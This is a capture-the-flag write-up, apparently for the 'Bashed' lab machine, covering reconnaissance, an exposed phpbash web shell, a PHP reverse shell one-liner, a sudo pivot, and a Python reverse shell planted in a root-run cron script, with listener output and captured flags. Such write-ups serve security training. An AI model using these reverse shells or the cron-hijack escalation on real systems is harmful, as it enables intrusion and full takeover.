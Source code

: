 # Bashed

### Challenge: FullPWN

### Tools: Nmap, 

Running Nmap we get port 80 running Apache 2.4.18. Curl did not give anything extra and an Nmap scripot scan did not find anything. We did get some luck with Dirb and we can check that part out.

```console
└──╼ [★]$ sudo nmap -sC -A -O 10.129.64.44
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 17:02 BST
Nmap scan report for 10.129.64.44
Host is up (0.0048s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/15%OT=80%CT=1%CU=34558%PV=Y%DS=2%DC=T%G=Y%TM=62FA6E1
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 995/tcp)
HOP RTT     ADDRESS
1   5.54 ms 10.10.14.1
2   4.90 ms 10.129.64.44

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.79 seconds
```
```console
└──╼ [★]$ curl -I http://10.129.64.44
HTTP/1.1 200 OK
Date: Mon, 15 Aug 2022 16:04:23 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Mon, 04 Dec 2017 23:03:42 GMT
ETag: "1e3f-55f8bbac32f80"
Accept-Ranges: bytes
Content-Length: 7743
Vary: Accept-Encoding
Content-Type: text/html
```

```console
└──╼ [★]$ dirb http://10.129.64.44

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug 15 17:06:04 2022
URL_BASE: http://10.129.64.44/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.64.44/ ----
==> DIRECTORY: http://10.129.64.44/css/                                        
==> DIRECTORY: http://10.129.64.44/dev/                                        
==> DIRECTORY: http://10.129.64.44/fonts/                                      
==> DIRECTORY: http://10.129.64.44/images/                                     
+ http://10.129.64.44/index.html (CODE:200|SIZE:7743)                          
==> DIRECTORY: http://10.129.64.44/js/                                         
==> DIRECTORY: http://10.129.64.44/php/                                        
+ http://10.129.64.44/server-status (CODE:403|SIZE:300)                        
==> DIRECTORY: http://10.129.64.44/uploads/                                    
                                                                               
---- Entering directory: http://10.129.64.44/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/dev/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/php/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/uploads/ ----
+ http://10.129.64.44/uploads/index.html (CODE:200|SIZE:14)                    
                                                                               
-----------------
END_TIME: Mon Aug 15 17:06:36 2022
DOWNLOADED: 9224 - FOUND: 3
```
The /dev directory looks the most interesting and digging slightly further takes us to http://10.129.64.44/dev/phpbash.php

Easy day. We can already navigate to and grab the user flag. Since we have a php bash lets create a reverse shell with it.

```console
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
```
```console
www-data@bashed
:/home/arrexel# cat user.txt

343cfcbe7fd570aa1a5218f0db7e0946
```
We set up the listener and run the script and we are in.

```console
bashed:/# php -r '$sock=fsockopen("10.10.14.93",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:33962.
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We still can't do anything different but running sudo -l shows that scriptmanager can be used. Note: running the reverse shell ro use script manager is required since the limited php shell from the webpage would not allow the sudo command with scriptmanager.

```console
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager bash -i
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ ls
```
Awesome now we are scriptmanager but we cannot access the root directory yet. There is an interesting directory labeled /scripts. This directory has a python script and a text file. My first assumption was that I could create a script to read the root.txt flag but my scripting is limited. I noticed that the .txt and .py were updating at the same time which suggests a cronjob being ran by root. With this we have our last step.

```console
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py
test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```
```console
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 20
drwxrwxr--  2 scriptmanager scriptmanager 4096 Aug 15 09:37 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   66 Aug 15 09:55 sol.py
-rw-r--r--  1 scriptmanager scriptmanager  110 Aug 15 10:19 test.py
-rw-r--r--  1 root          root            12 Aug 15 10:19 test.txt
```
We are going to set up 1 last reverse shell in order to gain root. We are going to make our own reverse shell script taken from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

We are going to use the python reverse shell since its being executed in a python script and set up our listener to catch it. After a minute or so the cronjob executes the script from the directory and we get our reverse shell and the flag!!

```console
scriptmanager@bashed:/scripts$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py
<);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py  
```

```console
└──╼ [★]$ nc -lvnp 1235
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:46748.
# ls
ls
sol.py	test.txt
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
353dbd73edc7c3073b68d735599731c9
```
WHOOOOOO!!!!

